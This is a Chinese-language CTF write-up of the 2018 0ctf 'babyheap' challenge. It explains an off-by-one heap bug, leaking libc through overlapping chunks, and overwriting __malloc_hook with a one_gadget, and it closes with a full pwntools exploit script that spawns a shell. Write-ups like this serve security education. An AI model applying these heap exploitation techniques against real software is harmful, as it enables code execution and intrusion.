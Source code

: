 # 2018 0ctf pwn--babyheap

题目四个功能alloc  update  delete  view

![image](https://github.com/lhc328/pwn/blob/master/picture/20180ctfbabyheap/1.png)

我们利用ida找一下漏洞

alloc函数里

![image](https://github.com/lhc328/pwn/blob/master/picture/20180ctfbabyheap/2.png)

update函数里（漏洞之处）

![image](https://github.com/lhc328/pwn/blob/master/picture/20180ctfbabyheap/3.png)

可写的长度多了一位，刚好可以修改下一个chunk头的size。 术语叫  off-by-one

delete函数

![image](https://github.com/lhc328/pwn/blob/master/picture/20180ctfbabyheap/4.png)

## 利用漏洞思路

​	利用off-by-one的漏洞，泄露出libc_base 和 main_arena地址，求出malloc_hook地址，修改main_arena的内容，指向malloc_hook附近的地方，从而修改malloc_hook内容为shellcode地址，执行alloc函数 = getshell。

### 第一步 泄露出libc_base 和 main_arena

​	申请多个chunk，利用off-by-one的漏洞，update chunk0修改chunk1的size，使其包含两个chunk，即overlap。把chunk1 free掉，这时系统认为chunk1为small chunk，便把它扔到main_arena处，申请与chunk1原来大小的chunk，chunk1的fd，bk的内容就会到了chunk2的fd和bk，因为指针2并没有free掉，view（2）就会出现main_arena的地址。

![image](https://github.com/lhc328/pwn/blob/master/picture/20180ctfbabyheap/5.png)
chunk3的作用是防止chunk2被‘合并’。

main_arena = 0x7f68ce3a0b78 - 0x58

libc_base = 0x7f68ce3a0b78 - 0x39bb78(我机器的偏移)

heap地址也可以找到

申请chunk4 大小为chunk2，指针4就会和指针2指向同一处，再free chunk1和chunk2，view（4）就会出现chunk1的地址。减去0x50就是heap的地址。

### 第二步 修改malloc_hook的内容

为了修改malloc_hook的内容，由于题目限制最大申请内存为88，main地址处开头都是0x7f，所以我们不能直接修改malloc_hook的内容，我们只能先修改main_arena（注意main_arena 的位置都有 对应chunk的大小）的内容，使它指向malloc_hook附近的位置。

我们先申请一个0x58的chunk，把它free掉

```python
alloc(0x58)
delete(1)
```

这步可以称是 鬼斧神工之作。看上去好像没做什么，实际上很重要，它把main_arena的bk修改了。

![image](https://github.com/lhc328/pwn/blob/master/picture/20180ctfbabyheap/6.png)

0x000055c05750c140中的 55 便是帮助我们malloc时通过检查的size大小。我们把地址偏移一下，main_arena+37放到chunk2的fd中，注意指针2虽然free掉，但我们还有chunk4。

![image](https://github.com/lhc328/pwn/blob/master/picture/20180ctfbabyheap/7.png)

alloc两个chunk，指针2就会指向main_arena+37处，我们就可以修改top chunk

Top Chunk

当一个chunk处于一个arena的最顶部(即最高内存地址处)的时候，就称之为top chunk。该chunk并不属于任何bin，而是在系统当前的所有free chunk(无论那种bin)都无法满足用户请求的内存大小的时候，将此chunk当做一个应急消防员，分配给用户使用。如果top chunk的大小比用户请求的大小要大的话，就将该top chunk分作两部分：1）用户请求的chunk；2）剩余的部分成为新的top chunk。否则，就需要扩展heap或分配新的heap了——在main arena中通过sbrk扩展heap，而在thread arena中通过mmap分配新的heap。

其中要注意的是，为什么分配56字节呢，，，想想是不是还有0x58的chunk，为什么不会分配到它呢，，，，因为0x60时fast chunk，不可拆，，除非分配的刚刚好是0x50-0x58的chunk，就会分给它

所以，当找不到适合的free chunk时，就会找到top chunk，就会分配到 malloc_hook附近，偏移为 -0x30，shellcode由one_gadget 得到，就不多讲了。

修改完malloc_hook后，malloc一下就会getshell了

exp：

```
from pwn import *
import sys

def alloc(size):
	r.recvuntil("Command: ")
	r.sendline("1")
	r.recvuntil("Size: ")
	r.sendline(str(size))

def update(idx,size,content):
	r.recvuntil("Command: ")
	r.sendline("2")
	r.recvuntil("Index: ")
	r.sendline(str(idx))
	r.recvuntil("Size: ")
	r.sendline(str(size))
	r.recvuntil("Content: ")
	r.sendline(content)

def delete(idx):
	r.recvuntil("Command: ")
	r.sendline("3")
	r.recvuntil("Index: ")
	r.sendline(str(idx))

def view(idx):
	r.recvuntil("Command: ")
	r.sendline("4")
	r.recvuntil("Index: ")
	r.sendline(str(idx))

def exploit(r):
	alloc(0x48)
	alloc(0x48)
	alloc(0x48)
	#chunk3 meiyou hui  shibai
	alloc(0x48)
	update(0, 0x49, 'a'*0x48 + "\xa1")
	delete(1)
	alloc(0x48)
	view(2)
	r.recvuntil("Chunk[2]: ")
	main_arena = u64(r.recv(8))-0x58
	libc_adr = main_arena-0x39bb20
	print hex(libc_adr)
	alloc(0x48)   # 4 = 2
	delete(1)
	delete(2)
	view(4)
	r.recvuntil("Chunk[4]: ")
	heap = u64(r.recv(8))-0x50
	alloc(0x58)
	delete(1)
	update(4, 8, p64(main_arena + 37))
	alloc(0x48)
	alloc(0x40)
	update(2,0x2c,"\x00"*35+p64(main_arena-0x33))
	alloc(0x20)
	update(5,28,'a'*11 + p64(libc_adr+0x4526a)*2)
	alloc(22)
	r.interactive()
	return

r = process('./babyheap')
print util.proc.pidof(r)
pause()
exploit(r)


```


